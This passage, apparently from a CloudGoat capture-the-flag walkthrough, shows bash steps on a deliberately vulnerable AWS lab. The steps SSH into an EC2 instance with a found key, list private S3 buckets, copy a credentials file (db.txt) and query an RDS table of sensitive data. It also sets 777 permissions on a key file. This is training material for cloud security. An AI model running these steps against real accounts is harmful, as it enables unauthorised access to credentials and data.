 ```bash

# ------------- 4. identify if there is a load balancer or EC2 instance deployed and if we have access to it.
# It’s the same EC2 instance and load balancer identified in Lara’s Path.
aws elbv2 describe-load-balancers --profile $SRC_PROFILE

# But this time we have an SSH key for the EC2 instance.
# So try connecting to the EC2 instance. But first, change the permission of the SSH key.
chmod 777 key.pub

ssh -i private_key ubuntu@public.ip.of.ec2



# ------------- 5. in the ec2
sudo apt-get install awscli

# access a private S3 bucket.
aws s3 ls
aws s3 ls s3://<bucket> --recursive

# have access to the last S3 bucket
# finds a “db.txt” contains the login credentials for an RDS database.
aws s3 cp s3://<bucket>/db.txt .
cat db.txt

# list and discover the RDS database
# need the address of the RDS instance.
aws rds describe-db-instances --region us-east-1


# access the RDS database using the credentials and acquires the scenario's goal: the secret text stored in the RDS database!
psql postgresql://<db_user>:<db_password>@<rds-instance>:5432/<db_name>
# cloudgoat ->
# cloudgoat ->\dt
# cloudgoat ->select * from sensitive_information;
```


![012821-36](https://i.loli.net/2021/02/02/v3LKVyuXNCgrile.png)



---


### Scenarios 7: codebuild_secrets (Large / Hard)


| ++            | ++                                                    |
| ------------- | ----------------------------------------------------- |
| Scenario Goal | get the SSH keys which grant direct access to the EC2 |
| Size          | Large                                                 |
| Difficulty    | Hard                                                  |
| Command       | `$ ./cloudgoat.py create codebuild_secrets`           |
